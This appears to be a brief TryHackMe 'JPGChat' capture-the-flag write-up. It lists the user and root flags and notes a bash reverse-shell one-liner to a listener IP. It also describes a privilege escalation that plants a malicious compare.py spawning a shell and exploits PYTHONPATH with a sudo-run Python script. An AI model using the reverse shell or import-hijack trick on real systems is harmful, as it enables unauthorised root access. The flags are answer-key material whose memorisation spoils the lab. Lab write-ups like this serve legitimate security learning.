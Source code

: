 # TryHackMe JPGChat

> Saikat Karmakar | May 5 : 2021

---

## Task 1
1. Establish a foothold and get user.txt
```
JPC{487030410a543503cbb59ece16178318}
```
2. Escalate your privileges to root and read root.txt
```
JPC{665b7f2e59cf44763e5a7f070b081b0a}
```

-----------
***Notes***
-----------
- admin name = `Mozzie-jpg`

- payload
```bash
bash -i >& /dev/tcp/10.4.23.120/9999 0>&1;
```

- `PYTHONPATH` is an environment variable which you can set to add additional directories where python will look for modules and packages. 

`https://www.tutorialspoint.com/What-is-PYTHONPATH-environment-variable-in-Python#:~:text=PYTHONPATH%20is%20an%20environment%20variable,needed%20for%20Python%20to%20run.`

- permissions
```bash
wes@ubuntu-xenial:/$ ls -la /opt/development/test_module.py
-rw-r--r-- 1 root root 93 Jan 15 18:58 /opt/development/test_module.py
```
 - we can only run it

- test_module.py contents
```py
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```
- expolit compare.py
```py
import os
os.system("/bin/bash")
```
- export the path of the compare.py to `PYTHONPATH`

- exe the file with sudo
```bash
wes@ubuntu-xenial:~$ sudo /usr/bin/python3 /opt/development/test_module.py
```
- got the root 